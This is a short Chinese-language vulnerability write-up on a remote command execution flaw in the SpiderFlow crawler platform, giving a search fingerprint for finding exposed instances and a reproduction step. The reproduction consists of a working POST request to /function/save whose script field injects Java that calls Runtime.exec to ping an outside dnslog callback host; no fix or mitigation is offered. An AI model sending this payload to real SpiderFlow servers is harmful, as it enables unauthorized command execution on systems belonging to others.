


SpiderFlow save 远程命令执行漏洞¶
漏洞描述¶
SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台
官⽹：https://www.spiderflow.org/
漏洞影响¶
SpiderFlow
网络测绘¶
title=="SpiderFlow"
漏洞复现¶
主页面

发送请求包执行命令
POST /function/save
id=&name=cmd¶meter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
